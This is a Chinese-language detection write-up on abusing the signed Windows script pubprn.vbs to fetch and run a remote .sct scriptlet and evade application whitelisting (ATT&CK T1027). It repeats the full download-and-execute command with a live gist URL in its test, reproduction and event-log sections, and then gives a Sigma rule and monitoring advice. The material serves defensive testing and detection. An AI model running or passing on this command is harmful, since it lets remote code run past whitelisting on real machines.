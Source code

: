 # T1027-Win-使用pubprn.vbs下载执行Payload（白名单）

## 描述

攻击者可能利用合法的、由微软签名的软件开发工具或脚本执行恶意代码，以绕过应用白名单防御机制。这些工具通常具有可信证书签名，允许在系统中以合法身份运行。`pubprn.vbs`是Windows 7及以上版本中自带的微软签名Windows Script Host（WSH）脚本，位于`C:\Windows\System32\Printing_Admin_Scripts\zh-CN\`，可被滥用来解析和执行恶意`.sct`（COM脚本）文件，从而下载并执行远程Payload，规避基于签名的检测。

## 测试案例

### 测试1：使用pubprn.vbs执行远程.sct脚本

攻击者通过`pubprn.vbs`调用远程`.sct`脚本，触发恶意代码执行。以下为测试命令：

**攻击命令**（在命令提示符或PowerShell中运行）：
```cmd
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

**说明**：
- `pubprn.vbs`通过`wscript.exe`执行，解析指定的`.sct`脚本。
- 命令中的`127.0.0.1`为占位参数，实际功能由`script:<URL>`指定的远程脚本实现。
- 测试使用的`.sct`脚本可能包含恶意代码，需在隔离环境中运行。

## 检测日志

- **Windows安全日志**：通过Event ID 4688（进程创建）记录`wscript.exe`执行`pubprn.vbs`的行为（需启用进程跟踪审核）。
- **Sysmon日志**：通过Event ID 1（进程创建）捕获详细的命令行参数和父进程信息。

## 测试复现

### 测试1：使用pubprn.vbs执行远程.sct脚本

在Windows 10环境中复现，需开启进程创建审核策略：

```cmd
Microsoft Windows [版本 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\ma jack>"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

**结果**：
- 在安装360终端管理软件的环境中，执行被拦截并提示，因安全软件检测到异常网络请求或脚本执行行为。
- 在无防护软件的环境中，命令可能成功触发远程`.sct`脚本的执行。

**环境配置**：
- 需启用组策略：`本地计算机策略 > 计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。
- 或者部署Sysmon以记录详细的进程创建事件。

## 测试留痕

### Windows安全日志（Event ID 4688：进程创建）

```xml
事件ID: 4688
EventData
SubjectUserSid: S-1-5-21-3061901842-4133171524-864420058-1000
SubjectUserName: ma jack
SubjectDomainName: DESKTOP-NJ1U3F5
SubjectLogonId: 0x3e2c5
NewProcessId: 0x1378
NewProcessName: C:\Windows\System32\wscript.exe
TokenElevationType: %%1938
ProcessId: 0x14d0
CommandLine: "C:\Windows\System32\WScript.exe" "C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
TargetUserSid: S-1-0-0
TargetUserName: -
TargetDomainName: -
TargetLogonId: 0x0
ParentProcessName: C:\Windows\System32\cmd.exe
MandatoryLabel: S-1-16-8192
```

**分析**：
- 日志记录了`wscript.exe`执行`pubprn.vbs`，命令行参数包含远程`.sct`脚本URL。
- 父进程为`cmd.exe`，表明通过命令提示符触发。
- 远程URL的存在是可疑行为，可能指向恶意脚本。

## 检测规则/思路

### Sigma规则

```yaml
title: 使用pubprn.vbs下载执行Payload
description: Detects execution of pubprn.vbs, a Microsoft-signed WSH script, used to parse and execute remote .sct scripts.
status: experimental
tags:
  - attack.defense_evasion
  - attack.t1027
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    EventID: 1
    Image|endswith: '\wscript.exe'
    CommandLine|contains: '\pubprn.vbs'
  condition: selection
fields:
  - Image
  - CommandLine
  - ParentImage
  - User
falsepositives:
  - Legitimate use of pubprn.vbs for printer administration
level: high
```

**规则说明**：
- 检测`wscript.exe`执行`pubprn.vbs`的进程创建事件（Sysmon Event ID 1）。
- 规则关注命令行中包含`pubprn.vbs`，特别是结合远程URL的调用。
- 规则为实验性，需测试以减少合法打印机管理操作的误报。

### 建议

1. **监控pubprn.vbs执行**：
   - 使用Sysmon（Event ID 1）捕获`wscript.exe`运行`pubprn.vbs`的事件，检查命令行是否包含`script:`或远程URL。
   - 关注非打印机管理场景下的`pubprn.vbs`调用。

2. **检测网络请求**：
   - 监控`wscript.exe`发起的网络连接，特别是访问外部URL（如`.sct`文件）。
   - 使用网络监控工具（如Wireshark）分析HTTP/HTTPS流量。

3. **启用详细日志**：
   - 配置Sysmon记录进程创建（Event ID 1）和网络连接（Event ID 3）。
   - 启用Windows安全日志的进程跟踪（Event ID 4688），确保记录命令行参数。

4. **部署SIEM系统**：
   - 使用SIEM工具（如Splunk、Elastic）分析Sysmon和安全日志，检测`pubprn.vbs`相关异常行为。
   - 设置告警规则，针对`pubprn.vbs`结合远程URL的执行。

5. **限制白名单工具滥用**：
   - 使用AppLocker或组策略限制`pubprn.vbs`和`wscript.exe`的执行，仅允许在特定管理场景下运行。
   - 监控非管理员用户运行`pubprn.vbs`的行为。

6. **测试与验证**：
   - 在测试环境中模拟`pubprn.vbs`执行远程`.sct`脚本，验证检测规则有效性。
   - 调整规则阈值，排除合法打印机管理操作的误报。

## 参考推荐

- MITRE ATT&CK T1027  
  <https://attack.mitre.org/techniques/T1027/>
- 渗透测试笔记  
  <https://github.com/M1k0er/pentest-notes>
- Enigma0x3的测试.sct脚本  
  <https://gist.github.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a>
